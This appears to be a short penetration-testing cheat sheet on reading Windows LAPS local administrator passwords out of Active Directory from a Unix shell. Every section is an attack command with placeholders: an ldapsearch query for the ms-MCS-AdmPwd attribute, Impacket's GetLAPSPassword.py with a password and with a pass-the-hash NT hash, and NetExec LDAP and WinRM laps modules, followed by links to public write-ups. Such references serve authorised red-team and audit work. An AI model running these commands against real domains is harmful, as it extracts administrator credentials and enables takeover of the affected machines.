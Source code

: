 # Unix Shell

## 01 - LDAP Port

### 1.1 - `ldapsearch`

```
$ ldapsearch -x -D "<username>" -w "<password>" -b "dc=<domain>,dc=<tld>" -h <domain_controller_IP> "(ms-MCS-AdmPwd=*)" ms-MSC-AdmPwd
```

### 1.2 - Impacket

```
$ GetLAPSPassword.py [<domain>/]"<username>":"<password>"@<IP>
```

Pass the Hash

```
$ GetLAPSPassword.py [<domain>/]"<username>"@<IP> -hashes :<nt_hash>
```

### 1.3 - NetExec

```
$ netexec ldap <IP> -u "<username>" -p "<password>" [-d <domain>] -kdcHost <domain_controller_IP> -M laps
```

## 02 - WinRM Port

```
$ netexec winrm <IP> -u "<username>" -p "<password>" [-d <domain>] -kdcHost <domain_controller_IP> -M laps
```

---
## References

### Mubix

- [Malicious.link: Dump LAPS passwords with ldapsearch](https://room362.com/posts/2017/dump-laps-passwords-with-ldapsearch/)

### NetExec

- [NetExec Wiki: Defeating LAPS](https://www.netexec.wiki/winrm-protocol/defeating-laps)